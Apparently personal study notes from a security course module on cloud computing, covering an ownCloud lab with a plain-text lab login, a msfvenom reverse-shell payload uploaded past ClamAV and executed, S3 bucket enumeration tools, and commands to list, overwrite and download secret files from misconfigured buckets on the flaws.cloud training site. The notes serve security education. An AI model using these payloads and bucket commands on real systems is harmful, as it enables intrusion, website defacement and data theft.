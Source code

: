 # 19 - Cloud Computing

#### <mark style="color:purple;">**Module 19 - Cloud Computing**</mark>

<details>

<summary>EMPTY</summary>



</details>

## Owncloud&#x20;

* Hosted at ubuntu machine http://10.10.10.9/owncloud. admin:qwerty@123
* Create users and share files to users.
* Install Desktop client and share and view files

Bypassing ClamAV

Cloud is currently protected by ClamAV so no malicious file is uploaded.

* `msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.10.10.11 LPORT=4444 --platform linux -f elf > /root/Desktop/exploit.elf` generate a linux based executable&#x20;
* Type `use multi/handler`
* Type `set payload linux/x86/shell/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Type `set LPORT 4444`
* Type `run`
* Upload payload in shared folder.
* Download using admin, Set permission to `chmod -R 755 exploit.elf`
* Execute exploit `./exploit.elf`

## S3 Buckets Enumeration

<details>

<summary>S3 Buckets</summary>

**S3 Buckets** are open cloud storage containers designed for storing items within the Simple Storage Service (S3). These S3 containers can be associated with directories and the storage of objects. Each item kept within these containers comprises three primary elements: the item's content (data), its metadata (encompassing details such as size, name, last modification date, and URL), and a distinct identifier for the item. Numerous websites utilize S3 containers for cloud-based file storage. **S3 bucket enumeration** refers to the procedure of discovering these S3 containers and subsequently cataloging the objects contained within them.

</details>

### Lazys3

{% embed url="https://github.com/nahamsec/lazys3" %}

**Lazys3** is a ruby script that allows to search for public S3 buckets.

* `ruby lazys3.rb` -> run it to enumerate buckets

### Cloud\_enum

{% embed url="https://www.kali.org/tools/cloud-enum/" %}

**Cloud\_enum** is a python script (prebuilt in Kali), that allows to search for public S3 buckets and also list their contents.

* Use the cloud\_enum tool to find and list down the contents of the buckets:

`cloud_enum -k flaws.cloud --disable-azure --disable-gcp`

### S3BucketList

{% embed url="https://github.com/AlecBlance/S3BucketList" %}

S3BucketList is a browser extension to enumerate S3 Buckets

## Exploiting S3 Unauthenticated

<details>

<summary><strong>Amazon S3 bucket</strong></summary>

**Amazon S3 bucket** is a user-friendly object repository, that is used for storing and recovering various data from anywhere on the web. Misconfigurations in S3 result in exposing private data or even complete compromise of websites in some cases

A potential misconfiguration can allow write/ delete access instead of read-only access. A private bucket that should have been configured to allow only authenticated access may have been misconfigured to allow public unauthenticated access

</details>

### AWS CLI

We can use Cloud enum tool to find and list down the contents of the buckets:

`cloud_enum -k flaws.cloud --disable-azure --disable-gcp`

and AWS CLI tool to find the contents of a bucket that allows unauthenticated access can be listed down with the following command

`aws s3 ls s3://flaw.cloud/ --no-sign-request`

If the AWS bucket allows write access, we can upload a file to AWS and can also overwrite the existing files which may result in the defacement of a public website

`aws s3 cp ./index.html s3://flaws.cloud --no-sign-request`

## Exploiting S3 Authenticated

A private bucket that should have been configured to allow only authenticated access for specific users may have been misconfigured to allow authenticated access from anyone

* Install S3 Bucket using AWS IAM (with user with programmatic access)
* Install awscli
* Configure the profile on aws cli with the keys from the account: `aws configure --profile new_profile`
* List the content of the S3 bucket with your profile: `aws s3 --profile ammar ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`
* Download the secret file `aws s3 --profile new_profile cp s3:/level2.c1g315dcds4a4a3sd4as41d2152.flaws.cloud/secret-e3453fc.html .`
